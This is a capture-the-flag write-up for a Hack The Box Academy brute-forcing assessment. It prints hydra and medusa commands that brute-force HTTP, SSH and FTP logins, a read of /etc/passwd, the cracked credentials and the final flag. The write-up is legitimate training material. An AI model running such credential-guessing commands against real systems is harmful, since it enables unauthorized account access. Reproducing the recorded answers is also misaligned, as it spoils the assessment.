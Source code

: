 # Skil- 1:
-  What is the password for the basic auth login?
- After successfully brute forcing the login, what is the username you have been given for the next part of the skills assessment?

[IP: 83.136.254.243:56064]
We use hydra for the first task:
After see the error [[ERROR] the target is using HTTP auth, not a web form, received HTTP error code 401. Use module "http-get" instead.]
we can use [hydra -l admin -P Dictionaries/rockyou.txt 83.136.254.243  http-get / -s 56064]

```sh
hydra -L Dictionaries/SecLists/Usernames/top-usernames-shortlist.txt -P Dictionaries/SecLists/Passwords/2023-200_most_used_passwords.txt 83.136.254.243  http-get / -s 56064
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-04-23 11:54:46
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 3400 login tries (l:17/p:200), ~213 tries per task
[DATA] attacking http-get://83.136.254.243:56064/
[56064][http-get] host: 83.136.254.243   login: admin   password: Admin123
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-04-23 11:55:35
```

[56064][http-get] host: 83.136.254.243   login: admin   password: Admin123
![1](../Img/bruteforceskill1.png)

We must to enumerate the next section, for findo some concedence to the satwossh:
Medusa:
`❯ medusa -h 94.237.57.108 -n 46265 -u satwossh -P Dictionaries/SecLists/Passwords/2023-200_most_used_passwords.txt -M ssh -t 3`
ACCOUNT FOUND: [ssh] Host: 94.237.57.108 User: satwossh Password: password1 [SUCCESS]

ssh satwossh@94.237.57.108 -p 46265
```sh
satwossh@ng-349590-loginbfsatwo-lqj5u-74bd7d7fcf-wkspz:~$ ls
IncidentReport.txt  passwords.txt  username-anarchy
satwossh@ng-349590-loginbfsatwo-lqj5u-74bd7d7fcf-wkspz:~$ 94.237.57.108:46265
-bash: 94.237.57.108:46265: command not found
satwossh@ng-349590-loginbfsatwo-lqj5u-74bd7d7fcf-wkspz:~$ netstat -tulpn | grep LISTEN
(No info could be read for "-p": geteuid()=1000 but you should be root.)
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp6       0      0 :::22                   :::*                    LISTEN      -
tcp6       0      0 :::21                   :::*                    LISTEN      -
satwossh@ng-349590-loginbfsatwo-lqj5u-74bd7d7fcf-wkspz:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
ftp:x:105:107:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
satwossh:x:1000:1000::/home/satwossh:/bin/bash
thomas:x:1001:1001::/var/.hidden:/bin/bash
```
We find the user thomas and now we can check for the password:
```sh
medusa -h 127.0.0.1 -u thomas -P passwords.txt -M ftp -t 5
ACCOUNT FOUND: [ftp] Host: 127.0.0.1 User: thomas Password: chocolate! [SUCCESS]
```

> [!IMPORTANT]
> User: thomas
> Password: chocolate!

```sh
ftp ftp://thomas@localhost
Trying [::1]:21 ...
Connected to localhost.
220 (vsFTPd 3.0.5)
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
200 Switching to Binary mode.
No entry for terminal type "xterm-kitty";
using dumb terminal settings.
ftp> ls
229 Entering Extended Passive Mode (|||29336|)
150 Here comes the directory listing.
-rw-------    1 1001     1001           28 Sep 10  2024 flag.txt
226 Directory send OK.
ftp> get flag.txt
local: flag.txt remote: flag.txt
229 Entering Extended Passive Mode (|||44932|)
150 Opening BINARY mode data connection for flag.txt (28 bytes).
100% |************************************************************************************************|    28      911.45 KiB/s    00:00 ETA
226 Transfer complete.
28 bytes received in 00:00 (186.01 KiB/s)
ftp> exit
221 Goodbye.
satwossh@ng-349590-loginbfsatwo-lqj5u-74bd7d7fcf-wkspz:~$ ls
IncidentReport.txt  flag.txt  passwords.txt  username-anarchy
satwossh@ng-349590-loginbfsatwo-lqj5u-74bd7d7fcf-wkspz:~$ cat flag.txt
HTB{brut3f0rc1ng_succ3ssful}
```
https://academy.hackthebox.com/achievement/349590/57

